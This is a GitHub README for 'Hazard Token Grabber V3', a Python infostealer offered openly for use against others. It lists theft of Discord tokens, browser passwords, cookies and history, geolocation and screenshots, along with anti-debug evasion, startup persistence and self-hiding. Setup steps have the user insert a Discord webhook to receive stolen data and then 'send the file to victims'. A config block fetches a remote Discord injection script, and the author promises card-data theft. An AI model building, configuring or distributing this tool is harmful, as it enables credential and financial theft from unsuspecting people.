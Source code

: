 <h1 align="center">
  Hazard Token Grabber V3 🔧
</h1>

<p align="center"> 
  <kbd>
<img src="https://camo.githubusercontent.com/b4909d8c45134b255c5e0c959cbca68f655d044e944c39fdcd91bbbb5d58eb1e/68747470733a2f2f692e646973636f72642e66722f5053532e706e67">
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  <img src="https://img.shields.io/github/last-commit/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  </a>
  <a href="https://github.com/Rdmo1">
    <img src="https://gpvc.arturio.dev/Rdmo1">
  </a>
</p>
  <img src="https://img.shields.io/github/stars/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Stars&style=flat-square">
  <img src="https://img.shields.io/github/forks/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Forks&style=flat-square">
</p>

<h2 align="center">
  Hazard-Token-Grabber-V3 was made with

CODE 🟩

</h2>

**NOTE:** \
- `Please star it if you like it, if we hit 10 stars i'll add Discord debit/card info and will be called "CreditCard.txt" ⭐`

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/VC3N3AXfgF)
- [🎉・Setting up Hazard Token Grabber.V3](#setup)
- [⚙・Config](#config)
- [🔍・Screenshot](#screenshot)

## <a id="features"></a>⚙️ 〢 Features

- `Anti-vm/Anti-debug` 🟢 
- `Add to startup` 🟢
- `Hides itself`🟢
- `Options are configurable`🟢
- `Pretty Fast Even if it Was Made With Python`🟢
- `Windows Product Key & Build Info`🟢
- `IP & Geolocation. (Country, City, Google Maps Location)`🟢
- `A screenshot of all their monitors`🟢
- `All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)`🟢
- `Discord Injection ( you get there password if they change it )`🟢
- `All Passwords, Cookies and History from Google`🟢



## <a id="setup"></a> 📁 〢 Setting up Hazard Token Grabber.V3

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [hazard.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/hazard.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. and save it
5. for the file name , Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓
    'webhook': "WEBHOOK_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdmo1/Discord-Injection/master/injection.js",
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
```

---
## <a id="screenshot"></a>🔍 〢 Screenshot
<p align="center"> 
  <kbd>
<img src="https://cdn.discordapp.com/attachments/1030360968473100331/1030404106134749244/IMG_20221014_165751.png">
  </kbd>
</p>
